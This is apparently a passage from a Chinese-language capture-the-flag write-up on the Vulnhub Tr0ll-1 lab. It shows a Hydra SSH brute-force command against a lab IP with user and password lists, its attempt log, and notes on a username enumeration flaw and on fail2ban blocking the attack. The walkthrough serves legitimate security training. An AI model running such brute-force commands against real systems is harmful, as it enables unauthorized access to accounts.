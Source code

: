 ```bash
[INFO] user genphlux does not exist, skipping
[INFO] user genphlux does not exist, skipping
[INFO] user genphlux does not exist, skipping
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-25 02:12:19
```

### ssh

在爆破前，你可能会注意这里有个ssh用户名枚举的漏洞，就在nmap 扫描结果那里。通过这个漏洞我确认which_one_lol.txt里面的10个用户名是真实存在的，甚至我猜的`troll`也是存在的，拿到ssh shell 后也证实了这些。

![image-20250825153546998](./Tr0ll.assets/image-20250825153546998.png)

尝试对22端口进行爆破。这里出现爆破受阻的现象，通过打完后看别人的[wp](https://devl00p.github.io/posts/Solution-du-CTF-Tr0ll/)了解到目标存在[fail2ban](https://github.com/fail2ban/fail2ban)。然后又通过测试发现不能多个用户名并发爆破，即使用hydra -W选项也没什么用，但是接受一次爆破一个用户。 当然，可以使用hydra -R ,等待22端口重新恢复连接。

```ssh
┌──(kali㉿kali)-[~/Vulnhub/Tr0ll-1]
└─$ hydra -vV -t 6 -f -e ns -L ./users.txt -P ./Pass.txt ssh://10.0.0.130
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-25 02:14:13
[DATA] max 6 tasks per 1 server, overall 6 tasks, 154 login tries (l:11/p:14), ~26 tries per task
[DATA] attacking ssh://10.0.0.130:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://maleus@10.0.0.130:22
[INFO] Successful, password authentication is supported by ssh://10.0.0.130:22
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "maleus" - 1 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "" - 2 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "ps-aux" - 4 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "felux" - 5 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "Eagle11" - 6 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "genphlux < -- Definitely not this one" - 7 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "usmc8892" - 8 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "blawrg" - 9 of 154 [child 3] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "wytshadow" - 10 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "vis1t0r" - 11 of 154 [child 2] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "overflow" - 12 of 154 [child 4] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "genphlux" - 13 of 154 [child 5] (0/0)
[ATTEMPT] target 10.0.0.130 - login "maleus" - pass "Good_job_:)" - 14 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "ps-aux" - 15 of 154 [child 4] (0/0)
[ERROR] could not connect to target port 22: Connection refused
[ERROR] ssh protocol error
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "" - 16 of 154 [child 0] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "maleus" - 17 of 154 [child 1] (0/0)
[ATTEMPT] target 10.0.0.130 - login "ps-aux" - pass "felux" - 19 of 154 [child 3] (0/0)
[VERBOSE] Retrying connection for child 4
```